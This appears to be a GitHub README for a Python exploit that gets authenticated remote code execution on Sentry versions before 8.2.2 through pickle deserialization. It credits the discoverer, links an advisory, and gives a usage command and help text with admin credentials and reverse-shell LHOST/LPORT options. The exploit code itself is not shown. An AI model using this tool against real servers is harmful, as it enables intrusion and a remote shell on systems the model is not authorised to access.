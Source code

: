 # Sentry-Authenticated-Remote-Code-Execution
## Sentry &lt; 8.2.2 Pickle Deserialization to RCE

<h4> Discovered By : Clement Berthaux (SYNACKTIV) </h4>
<h4> Advisory Link : https://doc.lagout.org/Others/synacktiv_advisory_sentry_pickle.pdf </h4>
<h4> Exploit DB Link :  </h4>

<h3> Usage : python exploit.py --url `http://<URL>/auth/login/sentry/` -U `username` -P `password` -l `LHOST` -p `LPORT`</h3>
  

usage: exploit.py [-h] [-U U] [-P P] [-l L] [-p P] [--url URL]

Sentry < 8.2.2 Authenticated RCE

optional arguments:
  -h, --help  show this help message and exit
  -U U        Sentry Admin Username / Email
  -P P        Sentry Admin Password
  -l L        Rev Shell LHOST
  -p P        Rev Shell LPORT
  --url URL   Sentry Login URL
              
              
![alt text](https://github.com/mohinparamasivam/Sentry-Authenticated-Remote-Code-Execution/blob/main/sentry_exploit.png?raw=true)              
              


# Dependencies

<h4>pip install requests</h4>
<h4>pip install bs4</h4>
<h4>pip install argparse</h4>

